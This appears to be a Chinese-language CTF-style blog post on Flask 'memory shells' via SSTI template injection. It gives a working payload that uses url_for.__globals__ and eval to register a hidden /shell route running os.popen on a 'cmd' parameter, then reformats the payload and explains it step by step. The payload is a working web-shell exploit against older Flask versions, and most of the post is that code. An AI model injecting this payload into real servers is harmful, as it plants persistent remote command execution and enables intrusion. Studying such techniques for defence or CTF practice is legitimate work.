 ```yaml
---
title: flask内存马
date: 2024-10-23 13:56:28
permalink: /pages/77dbc1/
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# flask内存马

最近遇到一些flask ssti模板注入的题目，在既没有回显，又不能出网的情况下，内存马成了一个好的选择。

在flask中，没有定义的路由会返回404的，因此内存马最初是通过动态注册路由来实现的，新版的flask已经不允许动态注册路由了，现在也有一些新的姿势实现



![0](https://the0n3.top/medias/flask-shell/0.png)

## 低版本flask内存马

分析低版本payload


```python
{{url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}
```

这里使用了flask的内置函数`url_for`，通过`url_for.__globals__`获取到全局变量，然后通过`__builtins__`获取到内置函数`eval`，在eval函数里使用`add_url_rule`动态的创建了一个`/shell`的路由，在这个路由下通过定义匿名函数导入了`os`模块，然后执行了`os.popen`函数，接收一个`cmd`参数，默认值为`whoami`，最后返回执行结果。


格式化成易读的形式

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
        )
    ",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    })
```

eval函数里的第二个参数是一个字典， 给eval 函数提供一个自定义的全局命名空间
